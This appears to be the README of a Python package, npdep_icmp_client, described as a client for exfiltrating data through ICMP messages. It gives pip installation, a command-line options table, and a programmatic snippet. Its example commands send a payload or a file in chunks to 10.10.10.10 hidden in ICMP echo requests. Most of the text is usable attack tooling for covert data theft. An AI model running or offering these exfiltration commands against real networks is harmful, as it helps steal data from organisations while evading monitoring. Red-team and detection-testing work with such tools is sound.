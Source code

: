 # Description

A client to exfiltrate data through ICMP messages

# Installation

`pip install npdep_icmp_client`

# Usage

**From command line:**

`python -m npdep_icmp_client [-h] [--mode {payload,file}] --ip IP [--port PORT] --msg {echo_req,echo_rep} [--pkgSize PKGSIZE] [--filePath FILEPATH] [--payload PAYLOAD]`

| Option | Short | Type | Default | Description |
|---|---|---|---|---|
|--mode | -o | String | file | file = Sends file `--filePath` in `--pkSize` chunks per ICMP message <br> payload = Sends `payload` per ICMP message |
|--msg | -m | String | - | echo_req = Echo Request Message <br> echo_rep = Echo Reply Message |
|--ip | -i | String | - | IP address of destination |
|--port | -p | Int | 0 | Port of destination |
|--pkgSize | -k | Int | 1200 | Nr. of bytes to load from file under `--filePath` in chunks |
|--filePath | -e | String | - | Path to file which shall be send in mode: file |
|--payload | -a | String | - | Payload to be send in mode: payload |

**Programmatically:**

```py
from npdep_icmp_client.client.Client import Client as ICMPClient
from npdep_icmp_client.type.IcmpType import IcmpType as ICMPType

client = ICMPClient("10.10.10.10", 4567)
client.sendEchoMessage(ICMPType.ECHO_REQUEST, "information_for_exfiltration")
```


# Example

`python -m npdep_icmp_client -o payload -m echo_req -i 10.10.10.10 -a "information_for_exfiltration"`

Sends `information_for_exfiltration` to `10.10.10.10` as an ICMP `Echo` request.
